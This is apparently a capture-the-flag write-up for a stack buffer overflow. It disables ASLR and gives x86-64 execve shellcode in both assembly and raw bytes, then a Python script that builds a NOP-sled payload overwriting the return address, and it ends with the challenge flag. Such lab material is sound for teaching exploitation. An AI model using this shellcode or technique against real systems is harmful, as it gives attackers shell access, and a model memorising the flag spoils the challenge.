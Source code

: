 
## Configuration

Need to disable ASLR, stack protection, and canaries.

Disable ASLR with: `echo 0 > /proc/sys/kernel/randomize_va_space`


## Writeup

We write assembly shellcode that will call execve into the stack and then overwrite the return address of the function to point back to this shellcode on the stack.

To do this, we write a large nop sled and then the shellcode followed by filler and then the return address. We need to use the nop sled because we might not know the exact return address. Since ASLR is disables, it won't be too large a disparity so some trial and error should let us pwn the program.

The shellcode was crafter as such:

```asm
xor     rdx, rdx                ;Clear rax register
mov     qword rbx, '//bin/sh'   ;Move /bin//sh to rbx
shr     rbx, 0x8                ;Add null byte to end of string
push    rbx                     ;Push /bin//sh to stack
mov     rdi, rsp                ;Load address of /bin//sh to rdi
push    rdx                     ;Push null byte to stack to end argv array
sub     rsp, $8
mov     [rsp], rdi              ;Push address of /bin//sh to stack (push command was crashing)
mov     rsi, rsp                ;Load address of address of /bin//sh to rsi
mov     al, 0x3b                ;syscall number of execve is 59
syscall                         ;Call execve
```

and the python code to craft the input is here

```python
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x48\x83\xec\x08\x48\x89\x3c\x24\x48\x89\xe6\xb0\x3b\x0f\x05"
ret_adr = "\xd5\xe8\xff\xff\xff\x7f\x00\x00"

nop_len = 500
payload = "\x90"*nop_len + shellcode + "a"*(0x400 - len(shellcode) - nop_len) + "b"*8 + ret_adr

print payload
```


**flag:** treeCTF{m0Arrr3-thakjfn_jast-a-re3d}